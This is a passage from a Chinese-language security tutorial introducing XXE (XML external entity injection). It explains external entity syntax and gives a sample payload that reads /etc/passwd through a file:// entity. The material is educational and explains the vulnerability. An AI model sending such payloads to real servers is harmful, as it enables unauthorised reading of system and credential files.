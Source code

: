 ![](简析XXE/1.png)
  
### 外部实体声明
XXE也叫做XML外部实体注入，正是因为它利用了外部实体引用
```xml
<!ENTITY 实体名称 SYSTEM "URI"> 
```
外部实体引用支持通过协议，来动态的获取值  
例如通过`file://`协议来读取文件内容
```xml
<!DOCTYPE foo [
	<!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<root>
	<name>&xxe;</name>
</root>
```
![](简析XXE/2.png)
也正是因为这样，XXE的攻击从而就产生了  
不同的语言支持的协议不同，这里盗一张图  